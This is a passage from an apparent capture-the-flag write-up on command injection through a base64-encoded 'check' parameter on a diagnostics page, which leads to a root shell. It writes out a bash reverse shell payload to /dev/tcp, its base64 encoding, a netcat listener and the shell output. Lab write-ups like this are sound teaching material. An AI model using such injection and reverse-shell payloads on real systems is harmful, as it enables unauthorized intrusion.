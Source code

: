 #### Tickets

The **"Tickets"** page gave a lot of clues about the second part of the exploitation. It was mentioning a Nigerian Prince having issues connecting to **a FTP server**. **BGP routing** among AS was also evoked.

![Lyghtspeed tickets]({{ "/assets/2019-03-16/lyghtspeed-tickets.png" | absolute_url }} "Lyghtspeed tickets")

#### Diagnostics

The "**Diagnostics**" page seemed to show the output of the command `ps -aux | grep quagga | grep -v grep`.

![Lyghtspeed diagnostics]({{ "/assets/2019-03-16/lyghtspeed-diagnostics.png" | absolute_url }} "Lyghtspeed diagnostics")

After examining the **POST request** sent when clicking on "Verify status" with Burp, it occurred that the **check** parameter was the **base64-encoding** of "quagga".

![Lyghtspeed quagga]({{ "/assets/2019-03-16/lyghtspeed-quagga.png" | absolute_url }} "Lyghtspeed quagga")

Let's see if we can control the output by modifying this parameter:

![Lyghtspeed SSH]({{ "/assets/2019-03-16/lyghtspeed-ssh.png" | absolute_url }} "Lyghtspeed SSH")

Indeed, the output has been modified to show everything related to "ssh". Now, let's try to inject other commands in order to **get a reverse shell on the machine**.

> SPOILER: The user flag can be retrieved without getting a reverse shell but it is mandatory for the rest of the box.

#### Road to Reverse Shell

This one was pretty difficult to trigger, I must have tried a dozen of different reverse shell payloads before finding the right one: `; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.89/9999 0>&1"`

* **Base64** encode the payload: *OyAvYmluL2Jhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODkvOTk5OSAwPiYxIg==*
* Setup a **local listener**: `nc -lvnp 9999`
* Send the command inside the POST request via the **check** parameter (Burp Repeater ).

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.89] from (UNKNOWN) [10.10.10.105] 58148
bash: cannot set terminal process group (25835): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~#
```

Surprise! We're root already.

The user flag can be retrieved at **/root/user.txt**.

```bash
cat /root/user.txt
5649[...]
```
